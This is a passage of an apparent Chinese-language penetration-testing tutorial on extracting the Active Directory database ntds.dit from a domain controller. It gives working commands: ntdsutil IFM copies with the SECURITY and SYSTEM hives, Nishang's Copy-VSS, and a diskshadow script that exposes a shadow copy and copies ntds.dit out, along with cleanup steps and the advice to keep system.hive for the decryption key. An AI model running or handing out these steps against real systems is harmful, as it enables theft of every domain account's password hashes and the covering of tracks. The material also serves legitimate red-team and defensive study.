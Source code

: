 #### 1.4 使用 ntdsutil 的IFM创建卷影拷贝

```cmd
# 复制文件到 test
ntdsutil "ac i ntds" "ifm" "create full c:/test" q q 
```

在C盘内创建test目录，test下Active Directory文件夹下有ntds.dit文件,registry文件下有SECURITY，SYSTEM文件

复制ntds.dit文件后删除test文件夹

```cmd
rmdir /s/q test
```



![image-20210224140130453](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/image-20210224140130453.png)

[也可以通过powershell实现（from Nishang）](https://github.com/samratashok/nishang/blob/master/Gather/Copy-VSS.ps1)

```cmd
import-module .\Copy-Vss.ps1
Copy-vss
```

#### 1.5 使用 diskshadow 导出 ntds.dit

```cmd
//设置卷影拷贝
set context persistent nowriters
//添加卷
add volume c: alias someAlias
//创建快照
create
//分配虚拟磁盘盘符
expose %someAlias% z:
//将文件复制到C盘
exec "cmd.exe" /c copy z:/windows/ntds/ntds.dit c:exfilntds.dit
//删除所有快照
delete shadows volume %someAlias%
//列出系统所以卷影拷贝
list shadows all
//重置
reset
//退出
exit
```

```cmd
# 执行命令
diskshadow /s c:/command.txt
```

执行命令应该在C:\windows\system32\下。

将`system.hive` 转存，因为 system.hive 中存储着 ntds.dit 的密钥。
